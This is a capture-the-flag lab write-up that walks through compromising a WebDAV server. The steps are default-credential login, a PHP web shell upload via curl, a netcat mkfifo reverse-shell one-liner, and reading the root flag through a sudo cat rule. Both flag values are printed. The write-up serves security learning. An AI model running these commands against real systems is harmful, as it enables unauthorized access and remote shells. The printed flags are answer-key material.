


<h3>1. Task: user.txt</h3>

Lets start with the usual nmap scans!

```
$ nmap 10.10.202.252
Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-18 07:38 EDT
Nmap scan report for 10.10.202.252
Host is up (0.078s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 1.76 seconds
```

A web server on port 80, lets check it out.<br>
Hm, apache ubuntu default page, lets try to fuzz the directories!
```
$ ffuf -u http://10.10.202.252/FUZZ -w ../wordlist/custom.txt -fc 403 -fs 11321
...
webdav                  [Status: 401, Size: 460, Words: 42, Lines: 15, Duration: 43ms]
```

Ffuf found a login page<br>

Webdavs default credentials are: **wampp:xampp**<br>
Lets try to login with this Password and Username<br>

Logged in successfully! Its a filesystem:

<br>

I can upload files to webdav like this:
```
$ curl http://10.10.202.252/webdav/ --user "wampp:xampp" --upload-file ../shell.php
```
After uploading my shell.php file, it should appear in the filesystem<br>
This is just a simple Remote shell php file, we can write system commands in here and execute them<br>
And now i Will open a netcat session for a better Shell<br>
Start the listener:
```
$ ncat -nlvp 8001
```

And execute the code in the uploaded file:
```
rm /tmp/f; mkfifo /tmp/f; nc <Your_ip> 8001 < /tmp/f | /bin/sh >/tmp/f 2>&1
```
And now i have a more stable Shell
```
$ ncat -nlvp 8001
Ncat: Version 7.95 ( https://nmap.org/ncat )
Ncat: Listening on [::]:8001
Ncat: Listening on 0.0.0.0:8001
Ncat: Connection from 10.10.202.252:57600.
```

Now lets find the first flag
```
www-data@ubuntu:/home$ ls
merlin  wampp
www-data@ubuntu:/home$ cd merlin 
www-data@ubuntu:/home/merlin$ ls
user.txt
www-data@ubuntu:/home/merlin$ cat user.txt
449b40fe93f78a938523b7e4dcd66d2a
```

<hr>
<h3> 2. Task: root flag </h3>

Running the command "sudo -l" showed that i can run the cat command as root without Password
```
www-data@ubuntu:/tmp$ sudo -l   
Matching Defaults entries for www-data on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ubuntu:
    (ALL) NOPASSWD: /bin/cat
```

This Will allow us to read the root flag in /root/root.txt !
```
www-data@ubuntu:/tmp$ sudo cat /root/root.txt
101101ddc16b0cdf65ba0b8a7af7afa5
```
